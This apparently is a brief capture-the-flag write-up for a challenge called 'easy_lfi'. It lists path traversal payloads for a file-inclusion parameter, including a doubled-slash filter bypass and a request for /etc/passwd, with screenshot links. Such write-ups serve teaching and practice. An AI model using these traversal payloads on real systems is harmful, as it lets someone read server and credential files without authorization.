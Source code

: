 # **easy_lfi**
/?f=about.php -> /?f=../flag

![](https://i.imgur.com/StF1Psq.png)

/?f=about.php -> /?f=..//flag

![](https://i.imgur.com/o6X8wJz.png)

/?f=..//..//..//..//..//etc//passwd

![](https://i.imgur.com/kFpmeHJ.png)
